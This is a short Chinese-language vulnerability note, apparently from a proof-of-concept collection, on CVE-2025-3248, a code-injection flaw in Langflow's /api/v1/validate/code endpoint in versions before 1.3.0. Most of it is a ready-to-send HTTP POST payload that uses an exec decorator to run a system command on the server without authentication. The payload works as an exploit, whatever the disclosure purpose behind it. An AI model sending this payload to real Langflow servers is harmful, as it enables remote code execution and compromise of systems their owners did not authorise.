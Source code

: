 # Langflow框架远程命令执行漏洞(CVE-2025-3248)

# 漏洞简介
Langflow是Langflow开源的一个用于构建多代理和 RAG 应用程序的可视化框架。‌是一个面向开发者的低代码工具，专注于多智能体人工智能、提示工程和检索增强生成（RAG）应用的开发。它能够帮助开发者轻松构建强大的AI智能体和工作流，通过可视化方式搭建AI应用，通过拖放操作创建复杂的AI工作流，从而降低开发门槛，减少编写样板代码的工作量，使开发者能够更多地专注于创新‌。Langflow 1.3.0之前版本存在安全漏洞，该漏洞源于/api/v1/validate/code端点存在代码注入漏洞，可能导致远程未经验证的攻击者执行任意代码。

# poc
```javascript
POST /api/v1/validate/code HTTP/1.1
Host: 127.0.0.1
Content-Type: application/jsonContent-Length: 125

{"code": "@exec('raise Exception(__import__(\"subprocess\").check_output([\"id\"]))')\ndef foo():\n  pass"}
```
![image](https://github.com/user-attachments/assets/fb2904cd-a254-4211-9e91-114310540f09)
